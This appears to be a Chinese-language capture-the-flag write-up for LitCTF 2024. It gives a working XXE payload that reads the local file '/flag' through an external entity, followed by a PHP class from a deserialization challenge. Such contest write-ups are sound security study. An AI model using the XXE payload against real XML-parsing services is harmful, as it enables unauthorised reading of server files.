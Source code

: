 ```yaml
---
title: LitCTF 2024
description: web&misc wp
tags:
  - CTF
  - MISC
  - WEB
categories:
  - write up
cover: 'https://tuchuang.voooe.cn/images/2024/06/05/efa4c9e15a.png'
abbrlink: LitCTF2024
date: 2024-06-05 20:43:00
swiper_index: 5
---
```


## WEB

### exx

无过滤 xml 注入

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE a [ 
<!ENTITY rabbit SYSTEM "file:///flag" >
]>
<user><username>&rabbit;</username><password>123</password></user>
```

![](https://s2.loli.net/2024/06/05/AQgYexBIkmqO89D.png)

### SAS - Serializing Authentication

入门级反序列化

```
<?php

class User {

    public $username;

    public $password;

    function __construct($username, $password) {

        $this->username = $username;

        $this->password = $password;

    }

    function isValid() { return $this->username === 'admin' && $this->password === 'secure_password'; }

}

?>
```
